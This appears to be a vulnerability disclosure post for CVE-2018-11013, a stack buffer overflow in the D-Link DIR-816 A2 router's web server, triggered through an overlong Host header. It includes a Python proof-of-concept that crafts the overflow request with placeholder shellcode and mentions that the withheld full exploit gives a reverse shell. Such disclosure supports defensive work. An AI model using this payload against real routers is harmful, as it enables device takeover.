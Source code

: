 ```yaml
---
title: D-Link DIR-816 A2 (CN) router stack-based buffer overflow
categories:
  - exploit
tags: router-exploitation
published: true
---
```


**This is the detail about CVE-2018-11013.**

# Vulnerability Detail

The vulnerability exists in the websRedirect function in the GoAhead web server. 

After access the router's WiFi or router's web service is opening on the Internet, send a GET request with
long HTTP Host header to sharefile function then triggers websRedirect function, and a piece of code do copy
Host header string to stack with no length limit locate on 0x41EAE4, so we could control the $pc register.

![]({{site.baseurl}}/images/05-13-18-1.png)

# Poc

A simple proving.

For the vendor's security, we will not provide the full exploitation before this issue report was confirmed.

**[poc.py]:**

```python

# Tested product: DIR-816 (CN)
# Hardware version: A2
# Firmware version: v1.10B05 (2018/01/04)
# Firmware name: DIR-816A2_FWv1.10CNB05_R1B011D88210.img
#

import socket

p = socket.socket(socket.AF_INET, socket.SOCK_STREAM)                 
p.connect(("192.168.0.1" , 80))

shellcode = "A"*0x200   # *** Not the correct shellcode for exploit ***

rn = "\r\n"
strptr = "\x60\x70\xff\x7f"
padding = "\x00\x00\x00\x00"

payload = "GET /sharefile?test=A" + "HTTP/1.1" + rn
payload += "Host: " + "A"*0x70 + strptr*2 + "A"*0x24  + "\xb8\xfe\x48" + rn
payload += "User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:59.0) Gecko/20100101 Firefox/59.0" + rn
payload += "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8" + rn
payload += "Accept-Language: en-US,en;q=0.5" + rn
payload += "Accept-Encoding: gzip, deflate" + rn
payload += "Cookie: curShow=; ac_login_info=passwork; test=A" + padding*0x200 + shellcode + padding*0x4000 + rn
payload += "Connection: close" + rn
payload += "Upgrade-Insecure-Requests: 1" + rn
payload += rn

p.send(payload)
print p.recv(4096)
```

With the full exploitation, we could get a reverse shell:

![]({{site.baseurl}}/images/05-13-18-2.png)

![]({{site.baseurl}}/images/05-13-18-3.png)
